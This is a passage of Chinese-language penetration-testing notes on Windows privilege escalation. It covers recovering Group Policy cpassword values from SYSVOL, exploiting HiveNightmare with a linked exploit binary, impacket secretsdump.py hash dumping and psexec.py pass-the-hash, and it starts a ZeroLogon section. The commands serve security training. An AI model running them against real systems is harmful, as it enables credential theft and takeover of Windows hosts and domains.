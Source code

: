 msf中内置了模块用于查找这些遗留的配置文件

![7](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\7.png)

### 获取组策略凭据

在大型的域环境中，域管理员通常会通过下发组策略来进行密码的同步修改和权限赋予等 

在新建一个组策略后，域控制器会自动在SYSVOL共享目录中生成一个XML文件，该文件保存了组策略更新后的密码。SYSVOL是在安装活动目录时创建的一个用于存储公共文件服务器副本的共享文件夹，在该目录中搜索能够看到名为Groups.xml的文件，其中的cpassword字段经过了AES256算法加密，不过微软在2012年就公布了该密钥

同样msf中有利用模块

![8](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\8.png)

### HiveNightmare(CVE-2021-36934)

该漏洞会影响 Windows 自 2018 年 10 月以来发布的版本，即 Windows 10 Version 1809 以后的版本,但该漏洞不会影响win server

执行以下命令，查看目标是否易受攻击

```
icacls C:\windows\system32\config\SAM
```

如果目标回显“BUILTIN\Users:(I)(RX)”则说明目标易受攻击，如果不则会回显拒绝访问

![9](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\9.png)

exp地址:https://github.com/GossiTheDog/HiveNightmare/releases/download/0.5/HiveNightmare.exe

将exp传到目标机器上，执行就能得到三个文件 SAM、SECURITY、SYSTEM，使用secretsdump.py获取目标用户的hash

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/examples python3 secretsdump.py -sam SAM-xxx-xx-x system SYSTEM-xxx-xx-x security SECURITY-xxx-xx-x LOCAL
```

再使用psexec.py直接利用administrator的hash登录管理员账户，获取SYSTEM权限

```
python3 psexec.py -hashes xxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxx administrator@ip cmd.exe
```

### ZeroLogon 域内提权(CVE-2020-1472)

通过调用Netlogon中的RPC函数NetrServerPasswordSet2来重置域控机器的机器账户的密码，通过机器用户来获得域控权限

```
影响版本：Windows Server 2008 R2 for x64-based Systems Service Pack 1Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)Windows Server 2012Windows Server 2012 (Server Core installation)Windows Server 2012 R2Windows Server 2012 R2 (Server Core installation)Windows Server 2016Windows Server 2016 (Server Core installation)Windows Server 2019Windows Server 2019 (Server Core installation)Windows Server, version 1903 (Server Core installation)Windows Server, version 1909 (Server Core installation)Windows Server, version 2004 (Server Core installation)
```
